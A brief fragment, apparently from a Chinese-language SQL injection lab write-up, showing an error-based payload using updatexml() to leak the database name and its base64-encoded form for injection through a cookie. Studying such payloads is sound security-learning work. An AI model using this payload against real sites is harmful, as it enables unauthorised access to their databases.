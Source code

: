 ![](file/image_suhKbTDG39.png)

```sql
//将payload进行base64加密再注入到cookie
admin') and  updatexml(1,concat(0x7e,database()),1)#
//编码后
YWRtaW4nKSBhbmQgIHVwZGF0ZXhtbCgxLGNvbmNhdCgweDdlLGRhdGFiYXNlKCkpLDEpIw==
```

![](file/image_WImaO3FXa4.png)

